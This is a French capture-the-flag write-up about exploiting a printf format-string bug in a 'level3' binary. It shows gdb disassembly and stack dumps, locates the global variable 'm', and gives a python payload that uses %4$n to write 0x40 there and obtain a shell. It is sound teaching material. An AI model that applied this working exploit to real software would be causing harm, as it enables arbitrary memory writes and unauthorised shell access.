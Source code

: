 # Format String Exploitation

En décompilant l'exécutable, on remarque que le programme compare une variable statique `m` à la valeur `0x40`. Il contient également un printf qui ne prend qu'un argument. Nous allons exploiter la faille `format string`.

L'objectif est d'utiliser les modifiers de `printf` pour écrire à l'adresse de la variable `m`, la valeur `0x40` et ainsi valider la condition qui exécutera un shell.

Pour comprendre la faille, voici quelques exemples. Exécutons `gdb` pour avoir une idée du fonctionnement de la stack :
```
> gdb level3
[...]
> (gdb) disas v
Dump of assembler code for function v:
   0x080484a4 <+0>:	    push   %ebp
   0x080484a5 <+1>:	    mov    %esp,%ebp
   0x080484a7 <+3>:	    sub    $0x218,%esp
   0x080484ad <+9>:	    mov    0x8049860,%eax
   0x080484b2 <+14>:	mov    %eax,0x8(%esp)
   0x080484b6 <+18>:	movl   $0x200,0x4(%esp)
   0x080484be <+26>:	lea    -0x208(%ebp),%eax
   0x080484c4 <+32>:	mov    %eax,(%esp)
   0x080484c7 <+35>:	call   0x80483a0 <fgets@plt>
   0x080484cc <+40>:	lea    -0x208(%ebp),%eax
   0x080484d2 <+46>:	mov    %eax,(%esp)
   0x080484d5 <+49>:	call   0x8048390 <printf@plt>
   0x080484da <+54>:	mov    0x804988c,%eax
   0x080484df <+59>:	cmp    $0x40,%eax
   0x080484e2 <+62>:	jne    0x8048518 <v+116>
   0x080484e4 <+64>:	mov    0x8049880,%eax
   0x080484e9 <+69>:	mov    %eax,%edx
   0x080484eb <+71>:	mov    $0x8048600,%eax
   0x080484f0 <+76>:	mov    %edx,0xc(%esp)
   0x080484f4 <+80>:	movl   $0xc,0x8(%esp)
   0x080484fc <+88>:	movl   $0x1,0x4(%esp)
   0x08048504 <+96>:	mov    %eax,(%esp)
   0x08048507 <+99>:	call   0x80483b0 <fwrite@plt>
   0x0804850c <+104>:	movl   $0x804860d,(%esp)
   0x08048513 <+111>:	call   0x80483c0 <system@plt>
   0x08048518 <+116>:	leave  
   0x08048519 <+117>:	ret    
End of assembler dump.
```

On break juste après l'exécution du `printf` pour observer la stack, puis on lance le programme.
```
> (gdb) b *0x080484da
[...]
> (gdb) r
```

Voyons avec un exemple simple, donnons en argument la chaine de caractère `AAAA` :
```
AAAA

> (gdb) x/20wx $esp
0xbffff500:	0xbffff510	0x00000200	0xb7fd1ac0	0xb7ff37d0
0xbffff510:	0x41414141	0xb7e2000a	0x00000001	0xb7fef305
            ^
            AAAA
0xbffff520:	0xbffff578	0xb7fde2d4	0xb7fde334	0x00000007
0xbffff530:	0x00000000	0xb7fde000	0xb7fff53c	0xbffff578
0xbffff540:	0x00000040	0x00000b80	0x00000000	0xb7fde714
```

On remarque que `printf` a écrit en mémoire notre chaine de caractère. Essayons maintenant d'utiliser le modifier `%p` qui sert à afficher l'adresse d'un pointer. Nous pouvons associer `%p` avec les modifiers `4$` qui sert à indiquer à `printf` qu'il faut utiliser le 4ème argument.
```
AAAA%$4p
AAAA0x41414141
> (gdb) x/20wx $esp
0xbffff500:	0xbffff510	0x00000200	0xb7fd1ac0	0xb7ff37d0
0xbffff510:	0x41414141	0xb7e2000a	0x00000001	0xb7fef305
            ^
            AAAA
0xbffff520:	0xbffff578	0xb7fde2d4	0xb7fde334	0x00000007
0xbffff530:	0x00000000	0xb7fde000	0xb7fff53c	0xbffff578
0xbffff540:	0x00000040	0x00000b80	0x00000000	0xb7fde714
```

Si on raisonne de la manière dont `printf` s'exécute, il écrit d'abord `AAAA` en mémoire, puis affiche l'adresse du 4ème argument, qui est maintenant `0x41414141`.

Il est également possible d'écrire dans la mémoire grace au modifier `%n`. `%n` écrit simplemement le nombre de charactères qui ont été affichés par `printf`. En combinant `%n` avec les modifiers `4$`, on peut ainsi écrire une certaine valeur à une adresse donnée.
```
AAAA%4$n
AAAA
> (gdb) x/20wx $esp
0xbffff500:	0xbffff510	0x00000200	0xb7fd1ac0	0xb7ff37d0
0xbffff510:	0x41414141	0xb7e2000a	0x00000001	0xb7fef305
            ^
            AAAA
0xbffff520:	0xbffff578	0xb7fde2d4	0xb7fde334	0x00000007
0xbffff530:	0x00000000	0xb7fde000	0xb7fff53c	0xbffff578
0xbffff540:	0x00000040	0x00000b80	0x00000000	0xb7fde714
```
Toujours dans la logique de `printf`, on imprime `AAAA`, puis, on écrit la valeur 0x04 (puisque 4 caractères ont été écrits), à l'adresse du 4ème argument, ici `0x41414141`. On a donc un `SEGFAULT` puisqu'il est impossible d'accéder à l'emplacement `0x41414141`.

Notre but est d'écrire `0x40` soit `64` en base 10, à l'emplacement mémoire de `m`. Pour connaitre son emplacement en mémoire, on éxecute :
```
> (gdb) Info variables
All defined variables:

Non-debugging symbols:
0x080485f8  _fp_hw
0x080485fc  _IO_stdin_used
0x08048734  __FRAME_END__
0x08049738  __CTOR_LIST__
0x08049738  __init_array_end
0x08049738  __init_array_start
0x0804973c  __CTOR_END__
0x08049740  __DTOR_LIST__
0x08049744  __DTOR_END__
0x08049748  __JCR_END__
0x08049748  __JCR_LIST__
0x0804974c  _DYNAMIC
0x08049818  _GLOBAL_OFFSET_TABLE_
0x0804983c  __data_start
0x0804983c  data_start
0x08049840  __dso_handle
0x08049860  stdin@@GLIBC_2.0
0x08049880  stdout@@GLIBC_2.0
0x08049884  completed.6159
0x08049888  dtor_idx.6161
0x0804988c  m
```
L'adresse de `m` est donc `0x0804988c`

De manière abstraite, on peut représenter notre argument de l'entrée standard de cette manière :
```
adresse_m + 60_caractères + %4$n
^           ^               ^
4 octets  + 60 octets (=64) écrire la valeur 64 à
                            l'adresse du 4ème argument
                            (adresse de m)
```
Si on exécutait `gdb` avec une commande comme celle ci, on obtiendrais un résultat similaire à celui-ci :
```
> (gdb) x/20wx $esp
0xbffff500:	0xbffff510	0x00000200	0xb7fd1ac0	0xb7ff37d0
0xbffff510:	0x0804988c	0x41414141	0x41414141	0x41414141
            ^           ^
            adresse de  60 caractères A
            m
0xbffff520:	0x41414141	0x41414141	0x41414141	0x41414141
0xbffff530:	0x41414141	0x41414141	0x41414141	0x41414141
0xbffff540:	0x41414141	0x41414141	0x41414141	0x41414141
```
Nous utilisons `python` pour formatter notre input :
```
python -c 'print("\x8c\x98\x04\x08" + "A"*60 + "%4$n")' > /tmp/input
```
Puis nous injectons notre input dans `level3` :
```
cat /tmp/input - | ./level3
```
